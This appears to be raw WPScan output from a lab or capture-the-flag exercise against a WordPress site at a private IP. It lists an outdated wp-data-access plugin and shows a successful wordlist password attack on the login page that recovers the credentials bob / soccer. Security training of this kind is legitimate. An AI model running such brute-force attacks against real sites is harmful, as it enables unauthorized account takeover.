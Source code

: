 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.54.30/wordpress/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] wp-data-access
 | Location: http://10.10.54.30/wordpress/wp-content/plugins/wp-data-access/
 | Last Updated: 2025-08-16T11:12:00.000Z
 | [!] The version is out of date, the latest version is 5.5.49
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.3.5 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.54.30/wordpress/wp-content/plugins/wp-data-access/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <=======================================================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - bob / soccer                                                                                                                                              
Trying bob / anthony Time: 00:00:01 <                                                                                          > (30 / 14344422)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: bob, Password: soccer

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Aug 19 12:19:37 2025
[+] Requests Done: 203
[+] Cached Requests: 5
[+] Data Sent: 57.78 KB
[+] Data Received: 484.285 KB
[+] Memory used: 278.191 MB
[+] Elapsed time: 00:00:06
</pre>
